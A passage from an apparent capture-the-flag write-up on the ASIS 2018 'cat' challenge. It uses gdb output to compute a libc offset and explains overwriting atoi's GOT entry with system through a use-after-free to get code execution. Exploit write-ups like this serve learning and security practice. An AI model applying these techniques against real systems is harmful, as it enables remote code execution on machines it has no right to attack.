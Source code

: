 ```
   0x7ffff7b08889 <__read_nocancel>:	mov    eax,0x0
   0x7ffff7b0888e <__read_nocancel+5>:	syscall 
=> 0x7ffff7b08890 <__read_nocancel+7>:	cmp    rax,0xfffffffffffff001
   0x7ffff7b08896 <__read_nocancel+13>:	jae    0x7ffff7b088c9 <read+73>
   0x7ffff7b08898 <__read_nocancel+15>:	ret    
   0x7ffff7b08899 <read+25>:	sub    rsp,0x8
   0x7ffff7b0889d <read+29>:	call   0x7ffff7b26d70 <__libc_enable_asynccancel>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf28 --> 0x401085 (lea    rax,[rbp-0x20])
0008| 0x7fffffffdf30 --> 0xff0000 
0016| 0x7fffffffdf38 --> 0x1 
0024| 0x7fffffffdf40 --> 0x401120 (push   r15)
0032| 0x7fffffffdf48 --> 0x400750 (xor    ebp,ebp)
0040| 0x7fffffffdf50 --> 0x7fffffffe040 --> 0x1 
0048| 0x7fffffffdf58 --> 0x3f8c9edc40331c00 
0056| 0x7fffffffdf60 --> 0x401120 (push   r15)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGINT
0x00007ffff7b08890 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	../sysdeps/unix/syscall-template.S: No such file or directory.
gdb-peda$ p __read_nocancel+7
$1 = (<text variable, no debug info> *) 0x7ffff7b08890 <__read_nocancel+7>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0x7ffff7a556a0 <__libc_system>
```

Then find the offset using python:
```
>>> hex(0x7ffff7a556a0 - 0x7ffff7b08890)
'-0xb31f0
```

So we can see that the offset from our leaked libc address to system is `-0xb31f0`. With that we have everything we need, we can just simply overwrite the got address of `atoi` with the libc address of `system`, that way when it calls `atoi` with a char pointer that we control as it's input, it will call `system` and we get to decide what it executes (thus we get remote code execution).

#### Write System

For this, the process is pretty similar to the first time we overwrote `atoi` (except the address we are overwritting it with). The biggest difference here is that since the `atoi` function has been replaced by `printf`, how we interface with the program has to be different (however it is still possible). Essentially our input would have to make printf output 1-6, you can look at the full exploit below to see how that's done. Also one more thing, you may of noticed that in my exploits, whenever I use the use after Free to do the overwrite I always include two 8 byte addresses afterwards, that is because that when i do the write there is a newline character that goes at the end of my input. If I didn't have values there, it would write over the existing data and cause a crash when I try to write to it. The reason why is is those two addresses is because when we take a look at the memory we can see that those two addresses are in a writeable section of memory with a static address:

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00402000         r-xp	/Hackery/asis18q/rev/cat/cat
0x00601000         0x00602000         r--p	/Hackery/asis18q/rev/cat/cat
0x00602000         0x00603000         rw-p	/Hackery/asis18q/rev/cat/cat
0x022e7000         0x02308000         rw-p	[heap]
0x00007efe40150000 0x00007efe4030e000 r-xp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007efe4030e000 0x00007efe4050d000 ---p	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007efe4050d000 0x00007efe40511000 r--p	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007efe40511000 0x00007efe40513000 rw-p	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007efe40513000 0x00007efe40517000 rw-p	mapped
0x00007efe40517000 0x00007efe4053d000 r-xp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007efe40715000 0x00007efe40717000 rw-p	mapped
```